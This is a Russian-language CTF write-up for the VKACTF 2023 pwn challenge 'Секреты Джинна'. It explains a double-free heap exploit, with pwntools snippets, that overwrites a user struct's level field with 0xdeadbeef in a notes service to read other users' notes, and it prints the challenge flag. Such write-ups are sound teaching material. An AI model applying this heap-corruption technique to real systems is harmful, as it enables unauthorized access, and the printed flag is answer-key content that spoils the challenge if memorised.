

# Секреты Джинна

|   Cобытие   | Название | Категория | Сложность |
| :---------: | :------: | :-------: | :-------: |
| VKACTF 2023 |  Секреты Джинна  |  Pwn  |  Средняя  |

## Описание

>Автор: old3gg
>
>"Никогда раньше не пробовали обмануть самого Джинна? Ходят слухи, что это невозмоно, но если знаешь пару трюков - он сам тебе всё раскажет"

# Решение
1. Дан бинарынй файл ,который представляет собой сервис заметок , где можно регистрироваться, авторизироваться, постить заметку и удалять её в аккаунте и т.д.

2. Сразу обращаем внимание на то, что регистрация и авторизация требует от пользователя логин, почту и пароль

3. У каждого аккаунта есть уровень , по дефолту у зарегистрированного пользователя - 1 ур.

4. Посмотрев всех пользователй , находим Джинна с уровнем аккаунта 11337, скорее всего у него и лежит нужная нам заметка, 

струкура пользователя 



5. Также замечаем , что пользователь с уровнем 0xdeadbeef получчает доступ к просмотру заметок всех пользователей

6. всё что нам остаётся, это перетереть уровень нашего аккаунта, с помощью уязвимости doublefree 

7. Для этого нам нужно зарегистрироваться создать 9 заметок размером с нашу структуру (структуру пользователя), т.е. чтобы 9 раз выделился чанк размером в 104

```python
def add_note(size):
    io.recvuntil(b"your choice? ")
    io.sendline(b"2")
    io.recvuntil(b"Your new note: ")
    io.sendline(cyclic(size))
```
затем освобождаем 7, удаляем аккаунт (8 чанк) , заметку (9 чанк) , ещё раз аккаунт(8 чанк)
```python
    io.recvuntil(b"your choice? ")
    io.sendline(b"6") # delete accaunt
    io.recvuntil(b"your choice? ")
    io.sendline(b"3") 
    io.recvuntil(b"delete: ")
    io.sendline(b"2") # delete note
    io.recvuntil(b"your choice? ")
    io.sendline(b"6") # delete accaunt again)
```

аллоцируем 7 ненужныных чанков, после чего снова регистрируемся, логинимся , создаём заметку и заметку со структурой пользователя,в которой перетираем 3 char массива по 32 , и выставляем нашу уровень, на нужный нам 

```python
    register(b"zxc", b"zxc@zxc", passwd=b"zxc")
    login(b"zxc", b"zxc", mail=b"zxc@zxc")

    add_note(104)
    io.recvuntil(b"your choice? ")
    io.sendline(b"2")
    io.recvuntil(b"Your new note: ")
    io.sendline(cyclic(96) + b"\xef\xbe\xad\xde\x99\x99\x99\x99")
```

[Скрипт](../exploit/exploit.py) для решения задания.

```
vka{e4sy_ch4ng3_57ruc7_w17h_d0ubl3_fr33}
```